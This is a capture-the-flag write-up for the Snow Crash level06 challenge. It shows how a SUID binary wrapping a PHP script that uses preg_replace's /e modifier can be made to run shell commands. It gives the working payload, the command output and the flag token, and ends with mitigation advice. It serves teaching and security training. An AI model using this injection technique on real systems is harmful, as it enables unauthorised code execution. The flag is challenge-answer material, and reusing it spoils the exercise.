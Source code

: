 # Level06 - Snow Crash Exploit

## Description

Upon logging in as `level06`, two files are present in the home directory:

```
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

- `level06`: a SUID binary owned by `flag06`
- `level06.php`: a PHP script

Running the binary without arguments produces:
```
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

Passing a filename as an argument prints the file's contents:
```bash
echo "Hello there" > /tmp/hello_there
./level06 /tmp/hello_there
# Output: Hello there
```

## Source Code Analysis

The `level06.php` script contains:
```php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

### Key Points

- The script reads the file provided as the first argument.
- It uses `preg_replace` with the `/e` modifier, which evaluates the replacement string as PHP code.
- The pattern `/(\[x (.*)\])/e` matches `[x ...]` and passes the inner content to the `y()` function, which does some replacements and returns the result.

**PHP's `/e` modifier is dangerous**: it allows code execution based on user input.

## Exploitation

By crafting a file containing a payload that leverages PHP's execution operators, we can execute arbitrary shell commands.

### Steps

1. **Create a file with the payload:**
    ```bash
    echo '[x ${`getflag`} ]' > /tmp/getflag06
    ```

2. **Run the vulnerable binary:**
    ```bash
    ./level06 /tmp/getflag06
    ```

3. **Output:**
    ```
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
     in /home/user/level06/level06.php(4) : regexp code on line 1
    ```

The flag is revealed in the output.

## Mitigation

- Never use the `/e` modifier in `preg_replace` (it is removed in PHP 7+).
- Avoid evaluating user input as code.
- Sanitize and validate all user input.

## Flag

```
wiok45aaoguiboiki2tuin6ub
```
